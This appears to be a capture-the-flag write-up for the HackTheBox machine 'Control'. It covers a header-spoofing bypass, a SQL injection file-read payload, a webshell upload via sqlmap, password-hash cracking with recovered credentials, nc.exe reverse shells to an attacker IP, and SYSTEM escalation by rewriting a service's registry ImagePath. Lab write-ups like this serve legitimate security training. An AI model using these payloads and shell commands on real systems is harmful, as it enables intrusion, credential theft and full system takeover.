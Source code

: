 ```yaml
---
title: "HTB: Control"
categories:
  - HackTheBox
tags:
  - HackTheBox
---
```


![Control](https://miro.medium.com/max/2866/0*VVgNDHYF1kz8pziK)

# Control

[[toc]]

## Website Enumeration

In the source code of the index page for http://control.htb/ we see the following message:
```
<!-- To Do:
	- Import Products
	- Link to new payment system
	- Enable SSL (Certificates location \\192.168.4.28\myfiles)
<!-- Header -->
```

We'll keep this in mind for later.

At http://control.htb/admin.php there's a blank page with the message:

_Access Denied: Header Missing. Please ensure you go through the proxy to access this page_

To bypass this, we'll use the IP we grabbed above and add an X-Forwarded-For header:

```
X-Forwarded-For: 192.168.4.28
```

So, our entire request will look like:

```
GET /admin.php HTTP/1.1

Host: control.htb
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:68.0) Gecko/20100101 Firefox/68.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://192.168.4.28/
X-Forwarded-For: 192.168.4.28
Connection: close
Upgrade-Insecure-Requests: 1
```

We're given access to the admin.php page!


test' UNION ALL SELECT NULL,NULL,NULL,NULL,NULL,load_file('C:/inetpub/wwwroot/admin.php')#

## Getting a Webshell/Reverse Shell

It's possible to upload a webshell using sqlmap:

```
sqlmap -r request.txt --file-dest="C:/inetpub/wwwroot/wolfshell.php" --file-write="wolfshell.php"
```

Using this "wolfshell" we are able to upload nc.exe to the server, and return a reverse shell to ourselves.

## Getting User Credentials

By dumping the DB, we found some credentials for users:

```
0E178792E8FC304A2E3133D535D38CAF1DA3CD9D
CFE3EEE434B38CBF709AD67A4DCDEA476CBA7FDA
0A4A5CAD344718DC418035A1F4D292BA603134D8
```

If we run these through hashcat, we can get a password!

```
hashcat -m 300 cracked.txt /usr/share/wordlists/rockyou.txt --force
```

We get:

**l33th4x0rhector**

So, our credentials are:

**hector:l33th4x0rhector**

## Pivoting to Hector

Now, using switch.ps1, we are able to open a semi-interactive shell as hector. First, we'll need to give him access to run nc.exe:

```
cacls C:/TEMP/nc.exe /e /p hector:f
```

Now, after uploading our switch.ps1 shell, we can run it:

```
./switch.ps1
[localhost]: PS C:\Users\Hector\Documents> C:/TEMP/nc.exe -nv 10.10.14.26 4444 -e cmd.exe
```

Voila, a fully interactive user cmd shell!

### Switch.ps1 Script

```
function switch-psuser {

    Param(
        [Parameter(Position=0)]
        [ValidateSet("adminsystem","administrator")]
        $User = "adminsystem"
    )

    switch($User)
    {
        'adminsystem'   { $username = "domain\adminsystem" ; $pw = "yyy"}
        'administrator' { $username = "control\hector" ; $pw = "l33th4x0rhector" }
    }

    $password = $pw | ConvertTo-SecureString -AsPlainText -Force
    $cred = New-Object System.Management.Automation.PSCredential -ArgumentList $username,$password
    New-PSSession -Credential $cred | Enter-PSSession
}
switch-psuser administrator
```
                                         
Voila, a CONTROL\hector shell!

From here, we need to see what services are running. We can't use accesschk.exe, as we get "Access Denied" and we can't use procmon.exe, as it's completely blocked on the machine. Additionally, we can't use tasklist to list running tasks and get info that way. We can, however, query the registry.

```
reg query HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Services\
```

We get a LONG list of services.

We can test to see which of these we can start (note, there are quite a few.) We'll need to copy all of the services, save the list on our local machine, and cut it. 

```
cat services.txt | cut -d '\' -f5 >> servicelist.txt
```

From here, we can use awk to add whatever we need to:

```
awk '{print "sc start " $0}' servicelist.txt | pbcopy
```

I've opted to use pbcopy for this, but we can use whatever program we wish to. We're simply piping the output into our clipboard.

Now, we'll paste this into our command window. Note, it needs to be cmd, not powershell. Powershell doesn't start or stop the services.

We can see that the following service can be started (among others):

```
NetSetupSvc
```

Because it can be started, we'll take a look at the parameters held within the registry for this service:

```
reg query HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Services\NetSetupSvc

HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Services\NetSetupSvc
    DependOnService    REG_MULTI_SZ    RpcSs
    Description    REG_SZ    @%SystemRoot%\system32\NetSetupSvc.dll,-4
    DisplayName    REG_SZ    @%SystemRoot%\system32\NetSetupSvc.dll,-3
    ErrorControl    REG_DWORD    0x1
    FailureActions    REG_BINARY    FFFFFFFF000000000000000001000000140000000000000000000000
    ImagePath    REG_EXPAND_SZ    %SystemRoot%\System32\svchost.exe -k netsvcs -p
    ObjectName    REG_SZ    LocalSystem
    RequiredPrivileges    REG_MULTI_SZ    SeChangeNotifyPrivilege\0SeImpersonatePrivilege\0SeLoadDriverPrivilege
    ServiceSidType    REG_DWORD    0x1
    Start    REG_DWORD    0x3
    Type    REG_DWORD    0x20

HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Services\NetSetupSvc\Parameters
HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Services\NetSetupSvc\Security
HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Services\NetSetupSvc\TriggerInfo
```

ImagePath looks interesting, as it's calling an executable and passing parameters to it. We'll edit this and see if we can get it to return a shell to us:

```
reg add HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Services\NetSetupSvc /v ImagePath /t REG_EXPAND_SZ /d "C:\Users\alcibiades\Documents\nc.exe -nv 10.10.14.5 4444 -e cmd.exe"  /f
```

With the ImagePath changed, we'll try to start the service with hector:

```
sc start NetSetupSvc
```

Now, we just catch the shell!

```
Microsoft Windows [Version 10.0.17763.805]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\Windows\system32>whoami
whoami
nt authority\system
```



